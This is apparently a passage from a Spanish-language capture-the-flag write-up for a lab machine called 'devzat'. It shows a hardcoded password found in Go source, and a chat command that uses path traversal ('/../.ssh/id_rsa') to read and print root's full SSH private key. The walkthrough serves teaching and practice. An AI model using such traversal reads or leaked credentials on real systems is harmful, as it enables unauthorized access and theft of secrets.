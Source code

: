 ```
./commands.go:		u.system("Please provide file to print and the password")
./commands.go:	printPath := filepath.Join(cwd, path)
./commands.go:	// Check if file exists
./commands.go:		file, err := os.Open(printPath)
./commands.go:			u.system(fmt.Sprintf("Something went wrong opening the file: %+v", err.Error()))
./commands.go:		defer file.Close()
./commands.go:		scanner := bufio.NewScanner(file)
./commands.go:			u.system(fmt.Sprintf("Something went wrong printing the file: %+v", err.Error()))
./commands.go:		u.system(fmt.Sprintf("The requested file @ %+v does not exist!", printPath))
./LICENSE:of this software and associated documentation files (the "Software"), to deal
```

He encontrado esta contraseña en `commands.go`

```
// Check my secure password
if pass != "CeilingCatStillAThingIn2021?" {
    u.system("You did provide the wrong password")
    return
}
```

Cuando nos `conectamos` como `catherine` al `devzat` vemos lo siguiente

```
catherine@devzat:~/dev$ ssh catherine@127.0.0.1 -p 8443
The authenticity of host '[127.0.0.1]:8443 ([127.0.0.1]:8443)' can't be established.
ED25519 key fingerprint is SHA256:liAkhV56PrAa5ORjJC5MU4YSl8kfNXp+QuljetKw0XU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[127.0.0.1]:8443' (ED25519) to the list of known hosts.
patrick: Hey Catherine, glad you came.
catherine: Hey bud, what are you up to?
patrick: Remember the cool new feature we talked about the other day?
catherine: Sure
patrick: I implemented it. If you want to check it out you could connect to the local dev instance on port 8443.
catherine: Kinda busy right now 👔
patrick: That's perfectly fine 👍  You'll need a password which you can gather from the source. I left it in our default backups location.
catherine: k
patrick: I also put the main so you could diff main dev if you want.
catherine: Fine. As soon as the boss let me off the leash I will check it out.
patrick: Cool. I am very curious what you think of it. Consider it alpha state, though. Might not be secure yet. See ya!
devbot: patrick has left the chat
Welcome to the chat. There are no more users
devbot: catherine has joined the chat
```

Obtenemos la `id_rsa` del usuario `root`

```
catherine: /file /etc/passwd CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/etc/passwd does not exist!
catherine: /file /../.ssh/id_rsa CeilingCatStillAThingIn2021?
[SYSTEM] -----BEGIN OPENSSH PRIVATE KEY-----
[SYSTEM] b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
[SYSTEM] QyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqAAAAJiUCzUclAs1
[SYSTEM] HAAAAAtzc2gtZWQyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqA
[SYSTEM] AAAECtFKzlEg5E6446RxdDKxslb4Cmd2fsqfPPOffYNOP20d+v8nnFgciadUghCpQomz7s
[SYSTEM] Q0ekw7ZzIOJu9Fn+tsKoAAAAD3Jvb3RAZGV2emF0Lmh0YgECAwQFBg==
[SYSTEM] -----END OPENSSH PRIVATE KEY-----
```
